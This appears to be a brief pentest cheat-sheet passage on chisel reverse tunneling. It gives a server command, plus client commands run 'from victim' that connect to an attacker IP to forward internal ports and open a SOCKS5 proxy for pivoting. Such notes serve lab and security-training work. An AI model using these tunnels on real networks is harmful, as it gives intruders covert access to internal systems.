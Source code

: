 - Start server listening on 8000:
	- `./chisel server -p 8000 --reverse`
- From victim:

| Command                                                 | Notes                                                     |
|---------------------------------------------------------|-----------------------------------------------------------|
| `.\chisel client <attacker ip>:<port> R:80:127.0.0.1:80` | Listen on Kali on port 80 and forward traffic to localhost port 80 on the client |
| `.\chisel client <attacker ip>:<port> R:4444:10.10.10.240:80` | Listen on Kali on port 4444 and forward traffic to 10.10.10.240 port 80 |
| `.\chisel client <attacker ip>:<port> R:socks` | Create a SOCKS5 listener on port 1080 on Kali, allowing proxying through the client |

